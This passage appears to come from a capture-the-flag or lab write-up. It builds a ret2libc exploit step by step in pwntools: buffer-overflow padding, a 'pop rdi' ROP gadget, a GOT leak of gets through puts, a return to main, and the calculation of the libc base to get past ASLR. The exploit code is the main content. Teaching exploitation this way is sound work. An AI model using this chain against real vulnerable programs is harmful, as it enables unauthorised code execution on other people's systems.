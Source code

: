 Our Payload consists of the following parts:
1. Padding: To skip the unnecessary parts of the stack which are allocated for our buffer, we input 18 bytes of useless data. 18 was the offset we found earlier.
```python
padding = b'A'*18 # We need padding to get to the return address
payload = padding 
```
2. We then search for the ROP Gadget `pop rdi` in order to set the argument for `puts` following the calling conventions we found earlier. 
```python
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0]) # We let pwntools search for the gadget 'pop rdi' and add the gadgets address to our payload
```
3. We now want to put the argument right above our `pop rdi` statement on the stack. The argument is the `.got.plt` address of `gets` as discussed earlier.
```python
payload += p64(elf.got.gets) # We use the .got.plt to find the dynamically linked address of gets()
```
4. After this is executed, the arguments for `puts` are present. To call it afterwards, we put its `.plt` address on the stack. 
```python
payload += p64(elf.plt.puts) # We use the .plt to find the address of puts()
```
5. At last, we want to make sure that we rerun the `main`-function so that the program does not exit and get another chance to insert input to leverage our new knowledge about the location of the libc.
```python
payload += p64(elf.symbols.main) # We enter the address of the main function to run it for the exploit afterwards
```

Now, we have to insert the payload.
```python
p.recvline() # Receive some blabla e.g. "Enter your name"
p.sendline(payload) # Send the payload as the name
p.recvline() # Receive some blabla e.g. "Your name is..."" + some padding from above
```

After doing this, our payload is executed and the address of `gets` is printed to stdout:
```python
# Now our main function is at its end and will begin to run our ROP chain (pop gets() into $RDI -> Execute puts() -> Execute main())
leak = u64(p.recvline().strip().ljust(8,b'\0')) # The received bytes are not always of length 8, therefore we have to do some stripping and padding 
```
Here we call `strip` and `ljust` to remove newlines and add additional padding zero bytes so that the address has the correct format. 

We can use this leaked runtime address of `gets` to calculate the libc base address. Therefore, we get the offset of `gets` from the libc object from above. We the rebase our libc object so that any call to `libc.symbols.my_super_cool_function` returns the correct address for the current run, even with ASLR enabled.
```python
libc.address = leak - libc.symbols.gets 
```
